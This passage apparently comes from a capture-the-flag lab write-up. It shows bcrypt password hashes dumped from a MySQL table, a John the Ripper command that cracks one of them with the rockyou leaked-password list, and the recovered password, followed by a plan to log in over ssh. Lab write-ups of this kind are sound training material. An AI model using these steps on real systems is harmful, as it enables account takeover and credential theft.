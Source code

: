 ```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

mysql> 
```

I found logan username and password hash from the mysql database.

Username: logan

Hash: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

I stored the logan user's hash into the loganHash.txt file and tried to crack it using JohnTheRipper.

```
john --wordlist=/root/Tools/SecLists/Passwords/Leaked-Databases/rockyou.txt loganHash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:37 DONE (2024-02-18 13:57) 0.02660g/s 37.35p/s 37.35c/s 37.35C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I finally found a user account password. Log in using the ssh service and get a user flag.
